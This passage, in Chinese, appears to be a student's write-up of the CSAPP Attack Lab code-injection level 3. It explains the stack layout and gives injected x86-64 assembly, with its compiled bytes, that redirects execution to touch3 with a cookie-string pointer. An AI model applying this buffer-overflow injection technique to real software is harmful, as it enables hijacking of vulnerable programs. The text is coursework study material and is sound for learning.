 ```c
```

这里要给touch3传入一个字符串的指针，然后调用hexmatch函数比较这个字符串与cookie是否相等。由于hexmatch的栈帧是覆盖getbuf栈帧的，所以在存放这个字符串的时候不能选择在getbuf的栈帧中。于是我们可以选择将字符串存在getbuf的父函数test之中。栈结构如下~~（excel真香）~~：

![](CI-L3-stack.png)

简单地理一下思路：

1. getbuf函数ret时，%rsp为0x5561dca0，%rip指向%rsp地址的内存0x5561dc78。ret完后%rsp为0x5561dca8。
2. 开始执行0x5561dc78处的代码：%rdi为cookie的指针；0x4018fa压入0x5561dca0地址，%rsp同时也为0x5561dca0
3. ret后%rip指向%rsp地址的内存0x4018fa，%rsp变成0x5561dca8，进入touch3

还是比较简单的。下面开始注入代码：

```assembly
# CI-L3.s
mov     $0x5561dca8,%rdi
pushq   $0x4018fa
ret

```

gcc编译生成CI-L3.o：

```bash
gcc -c CI-L3.s
```

objdump反编译：

```bash
objdump -d CI-L3.o > CI-L3.d
```

查看CI-L3.d文件：

```

CI-L3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   

```
